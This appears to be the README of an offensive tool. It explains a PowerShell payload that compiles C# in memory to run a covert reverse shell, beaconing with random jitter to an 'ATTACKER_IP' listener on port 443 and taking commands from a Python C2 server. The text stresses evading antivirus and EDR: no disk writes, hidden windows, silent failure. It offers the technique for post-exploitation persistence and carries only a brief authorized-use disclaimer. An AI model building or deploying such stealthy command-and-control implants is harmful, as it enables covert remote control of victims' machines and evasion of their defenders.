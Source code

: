 # Stealthy Reverse Shell Attack: In-Memory C# Beaconing

## Overview

This attack implements a stealthy reverse shell mechanism designed to establish persistent, intermittent command-and-control (C2) communications between a compromised Windows host and an attacker's server. The payload is a PowerShell script (`payload.ps1`) that compiles and runs a C# program in-memory, creating a reverse TCP shell that connects to the attacker's listener (hosted via a Python server on `server.py`). 

Key features include:
- **In-memory C# execution**: No disk writes; the C# code is compiled and executed directly in PowerShell to evade basic antivirus detection.
- **Periodic reconnections**: The client attempts to connect every 10-100 seconds (randomized) to simulate legitimate network activity and avoid detection.
- **Hidden execution**: All commands run without visible windows or prompts on the target.
- **Simple C2 protocol**: The server sends a single command per connection, receives output, and closes the session, minimizing exposure time.

This technique is useful for post-exploitation scenarios where persistence and stealth are priorities. **Warning**: This is for educational, authorized penetration testing, or red teaming purposes only. Unauthorized use may violate laws and ethical guidelines.

## How It Works

### Client Side (payload.ps1)
The PowerShell script embeds C# source code as a here-string (`@"..."@`) that defines a `ReverseShellCs` namespace with a `Program` class. When executed, it leverages PowerShell's integration with the .NET runtime for seamless in-memory compilation and execution. Here's a deeper technical breakdown:

1. **In-Memory C# Compilation and Execution**:
   - PowerShell's `Add-Type` cmdlet is the core enabler here. It accepts C# source code as a string and compiles it into a .NET assembly dynamically at runtime, without requiring an external compiler like `csc.exe` or Visual Studio.
   - **Why no external compiler?** Windows hosts the .NET Framework (or .NET Core/.NET 5+ on modern systems), which includes built-in compilation capabilities via the `Microsoft.CSharp.CSharpCodeProvider` (in .NET Framework) or the Roslyn compiler (`Microsoft.CodeAnalysis.CSharp`) in newer versions. `Add-Type` invokes this provider to parse the C# syntax, resolve references to core .NET assemblies (e.g., `System`, `System.Net`), generate IL (Intermediate Language) bytecode, and load the resulting assembly into the current PowerShell session's AppDomain (application domain).
   - This process is entirely memory-resident: The assembly is JIT-compiled (Just-In-Time) by the CLR (Common Language Runtime) when methods are first invoked, and execution occurs within the PowerShell host process (`powershell.exe` or `pwsh.exe`). No temporary files are written to disk, reducing forensic footprints and bypassing file-based AV signatures.
   - Once compiled, `[ReverseShellCs.Program]::Main()` is invoked statically, entering an infinite loop. This static method call binds to the loaded type via reflection under the hood, ensuring the beacon runs as a background thread in the PowerShell process.

2. **Periodic Connection Attempts**:
   - The `Main()` loop calls `GetRandomSeconds()`, which uses `System.Random` (seeded by system time) to generate a pseudo-random integer between 10,000 and 99,999 ms (10-100 seconds). Randomization introduces jitter to evade time-based heuristics in EDR (Endpoint Detection and Response) tools.
   - `Thread.Sleep()` blocks the current thread (PowerShell's main thread) for the duration, suspending execution without consuming CPU. This low-resource behavior mimics idle processes.
   - The loop then invokes `Connect("ATTACKER_IP")`, attempting outbound TCP on port 443. If the server is unreachable (e.g., firewall block or offline), a `SocketException` is thrown silently (uncaught in this implementation), and the loop continues after the next sleep—ensuring resilience without logging errors.

